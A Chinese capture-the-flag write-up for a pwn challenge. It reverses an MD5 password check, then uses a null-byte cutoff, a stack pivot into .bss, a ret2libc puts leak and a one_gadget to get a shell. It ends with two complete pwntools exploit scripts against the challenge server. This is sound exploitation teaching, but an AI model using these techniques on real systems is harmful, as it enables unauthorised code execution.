








# 总结：

1、这道题md5加密这个点，其实蛮重要的，个人感觉想判断出来的话，只能是靠经验的积累。下回只要遇见了这种奇奇怪怪的函数，还给了类似于密文这种东西，就去考虑加密。

2、能够输入的字节很少的时候，执行某个函数，可以尝试写call的这个地址，这样即可以执行函数，又可以控制执行流（只要我们可以把控好选取的call地址即可）

3、后期调试的话，多按自己的思路思考（不要被网上其他师傅写的wp所局限了）。

# 保护策略：




# 程序分析：




输入点有两处，第一次输入是输入到bss段，第二次输入是给到buf,存在八字节的溢出。一看这种存在八字节的溢出基本就可以确定是栈迁移没跑了。

然后第一次输入的数据，前五个字节必须是admin，否则的话就会触发exit。同时sub_401974函数的返回值也必须是0，否则就会触发exit。我们肯定是不能去触发这个exit的，不然程序直接就结束了。




观察sub_401974函数，发现这个函数很奇怪，首先是给了个数组v4，然后赋了两个莫名其妙的值，然后发现返回值的地方有一个判断，只要v5有一个字节和v4的不同，就返回1（这并不是我们想要的），如果能成功的跑16次循环，也就是说v5与v4的十六个字节全部相同，才会返回我们想要的0。

看看v5是什么？点进sub_400990函数看一下




发现很奇怪，然后把每个函数都点一下，发现就更奇怪了....

想遇见这种奇奇怪怪的情况，就考虑加密的形式。而最开始给的v4的值，就是密文。

然后就转一下看看（淦，其实我也是看师傅的wp才知道这是md5加密的，这只能靠经验和积累来判断吧？），发现是md5加密。


由于这个是小端序存放的v4，转换过来的话，应该是从右往左看。

取出来是个这玩意 21232f297a57a5a743894a0e4a801fc3

找个在线网站转一下




如此思路就出来了，第一次要输入admin，去通过strncmp函数的检查，第二次还要输入admin，去通过与md5匹配的检查。那两次输入都是admin，我们怎么去劫持程序的执行流？  这里我们是可以采用00截断的，意思就是说用00来声明md5加密的内容结束，而00后面的就不会被加密了，但00后面的内容已经是存在的。

# 大致思路：

这道题必然是考察栈迁移的，我们虽然只能控制rbp，但是由于这个函数结束的时候会执行一个leave;ret，而到main函数结束的时候又会执行一个leave;ret，因此我们只需要控制rbp，依然是可以完成栈迁移的。

这道题由于没办法泄露栈地址，因此迁移的话，肯定就是bss段。第一次在bss段输入内容的话，一共只能输入32字节，除去8字节的admin（admin后面还需要再填充3个00，用于补齐这一个内存单元），只剩下了24字节，我们肯定是考虑ret2libc的，那现在要做的就是泄露出来一个函数的真实地址。

问题是pop rdi占八字节，参数占八字节，执行puts又占八字节，这样看来，我们似乎是没办法控制返回地址了。

那这件事先缓一缓，我们再想一下，泄露出来了真实地址之后，肯定是要再来一次输入，将one_gadget的地址写入内存。同时还需要控制程序执行流，去执行这个one_gadget。综上所述，想完成这件事情，似乎我们只能是再跑一次程序，同时在跑之前还需要执行个puts函数。


那我们把执行puts的地址写成0x4018B5,这样它不但执行了puts函数，同时让程序的执行流又从sub_4018c7函数（这个函数就是程序的主要部分）开始跑了。


## 通过调试来进一步分析


然后此时应该调试一下，看看程序的情况。再做进一步完善exp。




此时是在第二次执行往bss段输入的那个read函数，可以看出来现在还一切正常。似乎只要布置一个admin和one_gadget地址，然后第二次利用那个read完成一次迁移就行了，但是事实真的这么简单么？




现在来到了第二次往栈里输入的read，可以发现它输入的内容是往0x6023f0输入的，这意味着我们刚刚输入的admin和one_gadget会被这次输入的内容所覆盖（因为我们现在的栈就已经在bss段了，因此这次输入会干扰第一次输入）。先注意一下rbp的值，我们第二次输入的目的就是在不破坏one_gadget的情况下，覆盖rbp迁移到one_gadget这里。现在这里的输入距离rbp还有32个字节。这就意味着我们要是想控制这个rbp就必须覆盖之前写的one_gadget了。

不过最关键的一点是不是被忽略了，往bss段输入的那个read函数，可以输入32字节，如果我们把one_gadget给抬高呢？抬高到第24字节再布置（相当于0x602400地址来说，也就是此时的one_gadget应该是在0x602418的位置），而我们再输入32字节的话再写rbp的话，这个rbp也才是在0x602410这个位置（第二次输入是相当于0x6023f0来说），这样rbp就没有干扰到one_gadget

或者用另一种方法，我们第一次就输入一个admin，第二次输入的时候，我们同时布置one_gadget和覆盖rbp。控制rbp去迁移到one_gadget上面，二者的核心思路都是一样的。


然后就exp基本就出来了，需要注意的是，如果打远程，one_gadget搜索的是用题目给的libc，如果的打本地，one_gadget搜自己本地的libc。（另外就是，这道题用不了system加参数/bin/sh获取shell，不信的话，试一下就知道了）

# EXP：

```python
#coding:utf-8
from pwn import *
from LibcSearcher import *

context(arch='amd64',os='linux',log_level='debug')
e=ELF('./a')
p=process('./a')
p=remote('node4.buuoj.cn',26765)
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')#这里本地还是远程，自己切换一下库
libc=ELF('libc.so.6')
#gdb.attach(p)

puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
pop_rdi_ret=0x401ab3
call_puts_addr=0x4018B5
payload='admin\x00\x00\x00'+p64(pop_rdi_ret)+p64(puts_got_addr)+p64(call_puts_addr)
p.sendafter('>',payload)
payload='admin\x00\x00\x00'*4+p64(0x602400)
p.sendafter('>',payload)

puts_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(puts_addr))

libc_base=puts_addr-libc.symbols['puts']
#yuancheng 0x4527a
one_gadget=libc_base+0x4527a

#bendi
#one_gadget=libc_base+0x4f302
print(hex(libc_base))
payload='admin\x00\x00\x00'*3+p64(one_gadget)
p.sendafter('>',payload)

payload='admin\x00\x00\x00'*4+p64(0x602400+0x18)#迁移到one_gadget
p.sendafter('>',payload)

p.interactive()
```


下面这个是第一次只输入admin，第二次同时布置one_gadget和控制rbp的exp。可以看出来，这个exp和上面的区别也仅仅是最后一点不一样。

```python
#coding:utf-8
from pwn import *
from LibcSearcher import *

context(arch='amd64',os='linux',log_level='debug')
e=ELF('./a')
p=process('./a')
p=remote('node4.buuoj.cn',26765)
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=ELF('libc.so.6')
#gdb.attach(p)

puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
pop_rdi_ret=0x401ab3
call_puts_addr=0x4018B5
payload='admin\x00\x00\x00'+p64(pop_rdi_ret)+p64(puts_got_addr)+p64(call_puts_addr)
pause()
p.sendafter('>',payload)
payload='admin\x00\x00\x00'*4+p64(0x602400)
pause()
p.sendafter('>',payload)

puts_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(puts_addr))

libc_base=puts_addr-libc.symbols['puts']
#yuancheng 0x4527a
one_gadget=libc_base+0x4527a

#bendi
#one_gadget=libc_base+0x4f302
print(hex(libc_base))
pause()
payload='admin\x00\x00\x00'
p.sendafter('>',payload)

payload='admin\x00\x00\x00'*3+p64(one_gadget)+p64(0x602400)
p.sendafter('>',payload)

p.interactive()
```



ps：最后值得一提的是，这两个exp，第一个最后是并没有执行两次leave;ret获取shell的，而是执行了一次leave就获取了shell，第二次则需要执行两回leave;ret才能获取shell。经过调试，我还是没有发现这种差异的根本原因是在哪里。如果各位师傅有弄的这个问题的，还请告知我这个菜鸡。